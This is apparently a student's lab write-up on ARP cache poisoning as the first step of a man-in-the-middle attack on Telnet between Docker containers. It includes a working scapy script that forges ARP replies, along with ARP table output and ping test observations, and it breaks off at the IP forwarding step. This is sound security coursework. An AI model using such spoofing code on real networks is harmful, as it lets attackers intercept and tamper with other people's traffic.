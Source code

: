 ### Docker config
```shell
seed@VM:~/.../volumes$ dockps
965fffded138  M-10.9.0.105
9cd27edc87ad  B-10.9.0.6
ef3a05ea874d  A-10.9.0.5
```

### Network Config
```shell
M - 10.9.0.105 - 02:42:0a:09:00:69
A - 10.9.0.5   - 02:42:0a:09:00:05
B - 10.9.0.6   - 02:42:0a:09:00:06
```

## Task 2: MITM Attack on Telnet
### Task 2.1: Launch the ARP cache poisoning attack
I first ensured that host A had an ARP cache entry for host B and vice versa. Then, I used the following scapy python script to maliciously overwrite the entries with host M's MAC address:
```python3
#!/usr/bin/env python3
from scapy.all import *

M_mac, M_ip = ("02:42:0a:09:00:69", "10.9.0.105")
A_mac, A_ip = ("02:42:0a:09:00:05", "10.9.0.5")
B_mac, B_ip = ("02:42:0a:09:00:06", "10.9.0.6")
broad_mac = "ff:ff:ff:ff:ff:ff"

#send an ARP request to A associating M's MAC address to B's IP address
E = Ether(dst=A_mac, src=M_mac)
A = ARP()
A.op = 2 #1 for ARP request; 2 for ARP reply
A.hwsrc = M_mac
A.psrc = B_ip
A.hwdst = A_mac
A.pdst = A_ip
sendp(E/A)

#send an ARP request to B associating M's MAC address to A's IP address
E = Ether(dst=B_mac, src=M_mac)
A = ARP()
A.op = 2 #1 for ARP request; 2 for ARP reply
A.hwsrc = M_mac
A.psrc = A_ip
A.hwdst = B_mac
A.pdst = B_ip
sendp(E/A)
```

We can now see the respective ARP tables for hosts A and B:
```shell
root@9cd27edc87ad:/# arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
10.9.0.1                 ether   02:42:31:62:85:b3   C                     eth0
10.9.0.5                 ether   02:42:0a:09:00:69   C                     eth0

root@ef3a05ea874d:/# arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
10.9.0.6                 ether   02:42:0a:09:00:69   C                     eth0
10.9.0.1                 ether   02:42:31:62:85:b3   C                     eth0
```

### Task 2.2: Testing
We first turn off ip forwarding for host M. We then send a ping request from A to B. Below is the wireshark packet capture:
![image](https://github.com/user-attachments/assets/02924e41-eb9f-463f-ab87-c1adb7a9bc4f)
In summary, the ping requests fail, and eventually host A sends out an ARP request to host B who replies with their correct ip address, and the pings begin to succeed again.

### Task 2.3: Turn on IP Forwarding
After we poison the caches again, we turn on ip forwarding for host M. We then send a ping request from A to B. Below is the wireshark packet capture:
